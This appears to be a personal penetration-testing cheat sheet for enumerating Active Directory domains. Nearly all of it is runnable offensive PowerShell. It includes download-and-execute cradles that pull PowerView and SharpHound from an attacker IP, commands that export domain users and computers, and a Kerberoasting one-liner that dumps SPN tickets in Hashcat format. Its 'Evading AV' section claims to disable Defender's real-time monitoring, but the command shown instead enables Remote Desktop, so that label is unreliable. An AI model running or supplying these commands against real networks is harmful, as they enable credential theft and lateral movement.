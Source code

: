 ```yaml
---
description: This is just a living document of things I have needed for domain enumeration
---
```


# Domain Enumeration

## POWERSPLOIT

Use the `dev` branch or [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/tree/dev). For an already incredible cheatsheet, check out HarmJ0y's - [https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)

`IEX(New-Object Net.WebClient).downloadString('http://10.10.10.123/ps/PowerView.ps1')`

### Domain Users

`Get-NetUser * -Domain corp.local | Select-Object -Property name,samaccountname,description,memberof,whencreated,pwdlastset,lastlogontimestamp,accountexpires,admincount,userprincipalname,serviceprincipalname,mail,useraccountcontrol | Export-CSV users.csv`

### Domain Computers

`Get-NetComputer * -Domain corp.local | Select-Object -Property dnshostname,operatingsystem,operatingsystemservicepack,lastlogontimestamp | Export-CSV computers.csv`

### SPN Ticket Request

`Get-DomainUser * -SPN | Get-DomainSPNTicket -OutputFormat Hashcat | Export-Csv .\ticket.csv -NoTypeInformation`

## BLOODHOUND

### Ingestor Launch

```text
IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.123/ps/SharpHound.ps1');
Invoke-BloodHound -CollectionMethod ACL,ObjectProps,Default -CompressData -SkipPing;
```

## EVADING AV

### Turning Off Defender's RTM

`PS C:\Windows\system32> Set-itemproperty 'HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server\' -Name "fDenyTSConnections" -value 0`

